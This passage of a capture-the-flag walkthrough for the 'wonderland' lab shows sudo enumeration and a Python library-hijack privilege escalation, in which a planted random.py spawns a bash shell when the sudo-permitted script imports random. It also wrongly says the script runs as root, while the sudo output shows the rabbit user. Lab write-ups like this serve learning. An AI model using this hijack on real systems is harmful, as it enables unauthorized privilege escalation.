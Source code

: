 ```bash
alice@wonderland:~$ sudo -l
[sudo] password for alice:
Matching Defaults entries for alice on wonderland:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User alice may run the following commands on wonderland:
    (rabbit) /usr/bin/python3.6 /home/alice/walrus_and_the_carpenter.py


alice@wonderland:~$ cat /home/alice/walrus_and_the_carpenter.py
import random
poem = """The sun was shining on the sea,
Shining with all his might:
He did his very best to make
The billows smooth and bright —
And this was odd, because it was
The middle of the night.

The moon was shining sulkily,
Because she thought the sun 
........................................................
"""
```

We have found root.txt and some python script can be run via sudo as root.

However, we have not yet found user.txt, will jump back to that later.

Since the python script can run as sudo, and it only use python random library.

Let do some research how to get privesc from python random module.

Check out [this](https://medium.com/@klockw3rk/privilege-escalation-hijacking-python-library-2a0e92a45ca7)

Let's check on python path.

```bash
alice@wonderland:~$ python3 -c 'import sys; print(sys.path)'
['', '/usr/lib/python36.zip', '/usr/lib/python3.6', '/usr/lib/python3.6/lib-dynload', '/usr/local/lib/python3.6/dist-packages', '/usr/lib/python3/dist-packages']

alice@wonderland:~$ locate random.py
/usr/lib/python3/dist-packages/cloudinit/config/cc_seed_random.py
/usr/lib/python3.6/random.py
```

Base on the article we found, we can create own script and hijack the random module.

```bash
alice@wonderland:~$ vi random.py

alice@wonderland:~$ cat random.py
import os
os.system('/bin/bash')
```
